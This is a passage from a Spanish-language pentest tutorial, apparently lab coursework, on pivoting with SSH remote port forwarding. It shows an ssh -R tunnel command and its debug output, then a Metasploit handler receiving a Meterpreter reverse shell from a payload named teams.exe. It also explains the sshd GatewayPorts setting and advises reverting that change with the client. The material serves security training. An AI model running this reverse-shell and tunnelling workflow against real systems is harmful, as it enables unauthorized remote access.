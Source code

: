 ```r
ssh -i dmz01_key -R 172.16.8.120:443:0.0.0.0:7000 root@10.129.203.111 -vN

OpenSSH_8.4p1 Debian-5, OpenSSL 1.1.1n  15 Mar 2022
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 10.129.203.111 [10.129.203.111] port 22.

<SNIP>

debug1: Authentication succeeded (publickey).
Authenticated to 10.129.203.111 ([10.129.203.111]:22).
debug1: Remote connections from 172.16.8.120:443 forwarded to local address 0.0.0.0:7000
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Remote: /root/.ssh/authorized_keys:1: key options: agent-forwarding port-forwarding pty user-rc x11-forwarding
debug1: Remote: /root/.ssh/authorized_keys:1: key options: agent-forwarding port-forwarding pty user-rc x11-forwarding
debug1: Remote: Forwarding listen address "172.16.8.120" overridden by server GatewayPorts
debug1: remote forward success for: listen 172.16.8.120:443, connect 0.0.0.0:7000
```

A continuación, ejecutamos el payload teams.exe desde el host `DEV01`, y si todo va según lo planeado, obtendremos una conexión de vuelta.

```r
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 0.0.0.0:7000 
[*] Sending stage (175174 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:7000 -> 127.0.0.1:51146 ) at 2022-06-22 12:21:25 -0400

(Meterpreter 2)(c:\windows\system32\inetsrv) > getuid
Server username: IIS APPPOOL\DotNetNukeAppPool
```

Un inconveniente del método anterior es que, por defecto, OpenSSH solo permite la conexión a los puertos reenviados remotamente desde el propio servidor (localhost). Para permitir esto, debemos editar el archivo `/etc/ssh/sshd_config` en sistemas Ubuntu y cambiar la línea `GatewayPorts no` a `GatewayPorts yes`, de lo contrario, no podremos recibir una llamada en el puerto que reenviamos en el comando SSH (puerto 443 en nuestro caso). Para hacer esto, necesitaríamos acceso root SSH al host que estamos usando para pivotar. A veces veremos esta configuración configurada de esta manera, por lo que funciona de inmediato, pero si no tenemos acceso root al host con la capacidad de modificar temporalmente el archivo de configuración SSH (y recargarlo para que surta efecto usando `service sshd reload`), entonces no podremos realizar port forwarding de esta manera. Tenga en cuenta que este tipo de cambio abre un agujero de seguridad en el sistema del cliente, por lo que querría aclararlo con ellos, anotar el cambio y hacer todo lo posible por revertirlo al final de la prueba. Este [post](https://www.ssh.com/academy/ssh/tunneling/example) vale la pena leer para entender mejor el SSH Remote Forwarding.

---